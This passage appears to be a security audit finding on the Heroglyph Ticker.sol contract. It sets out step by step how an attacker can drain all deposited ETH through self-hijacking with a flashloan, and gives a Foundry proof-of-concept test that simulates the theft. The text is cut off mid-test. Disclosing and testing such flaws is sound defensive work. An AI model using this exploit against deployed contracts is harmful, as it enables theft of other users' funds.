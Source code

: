 Note that the `price` isn't being paid by the hijacker but rather by the contract itself (using the ETH from other users' deposits) since he can withdraw the whole deposit at any time using [`withdrawDeposit()`](https://github.com/HeroglyphEVM/heroglyph/blob/7d1f83c821b72568c52d3a9737c5905f61c9cae3/src/identity/ticker/Ticker.sol#L185).

Here's how an attacker can abuse this mechanism to steal all the ETH from the Ticker.sol contract:

1. The attacker creates a Ticker with arbitrary metadata and a low price, so he pays very little taxes afterward.
2. The attacker waits for `protectionInSeconds` until he can hijack his own Ticker.
3. The attacker calls `updatePrice` and sets a price equal to the contract ETH balance.
4. The attacker uses a second account to take a flashloan (equal to the contract ETH balance) and hijack his own Ticker. This should be done in the same block as the previous step to avoid paying taxes.
5. In the same tx as the previous step, the attacker uses his second account to withdraw the deposit he just made and repay the flashloan.
6. At this point, the contract will be drained, and all the funds will be held in the attacker's account that created the Ticker in Step 1.

PoC can be added to the [`Ticker.t.sol`](https://github.com/HeroglyphEVM/heroglyph/blob/7d1f83c821b72568c52d3a9737c5905f61c9cae3/test/unit/identity/Ticker.t.sol) file to simulate attack:

```solidity
function test_hijack_getsDrained() external pranking {
    assertEq(address(underTest).balance, 0); // Ticker contract has no ETH

    // user creates Tickers and makes deposits into the contract
    changePrank(user);
    uint256 initialDeposit = 100 ether;
    underTest.create{ value: initialDeposit }(tickerCreation);

    // Ticker contract holds 100 ETH in deposits
    assertEq(address(underTest).balance, 100 ether);

    // attacker uses two accounts to drain the Ticker contract
    address _attacker1 = makeAddr("attacker1");
    address _attacker2 = makeAddr("attacker2");

    // attacker uses one account to create a Ticker with a low price, to pay less taxes
    changePrank(_attacker1);
    deal(_attacker1, COST + 0.01 ether); // to cover COST + tax
    tickerCreation.name = "test";
    tickerCreation.setPrice = 0.01 ether;
    underTest.create{ value: COST }(tickerCreation);

    // COST gets added to the contract's balance after new Ticker creation
    assertEq(address(underTest).balance, 100 ether + COST);

    // skip to the time when the attacker can hijack his own Ticker, using his other account
    skip(underTest.protectionInSeconds());

    // taxes are paid at the low creation price, and then price is updated to match the amount
    // to drain from the contract
    underTest.updatePrice(0, "test", 100 ether);

    // attacker uses another account to take a flashloan and hijack the Ticker he created
    changePrank(_attacker2);
    deal(_attacker2, 100 ether); // takes flashloan
    underTest.hijack{ value: 100 ether }(0, "test", 1); // + 100 ETH to _attacker1
    underTest.withdrawDeposit(0, "test", 100 ether);    // + 100 ETH to _attacker2

    // 1. Ticker contract stole all the ETH from the Ticker contract
    assertEq(address(underTest).balance, 0);
    // 2. _attacker1 has 100 ETH + a little bit more that was used to create the malicious Ticker
    assertApproxEqRel(_attacker1.balance, 100 ether, 1e16);
    // 3. _attacker2 has 100 ETH that will be used to repay the flashloan
```
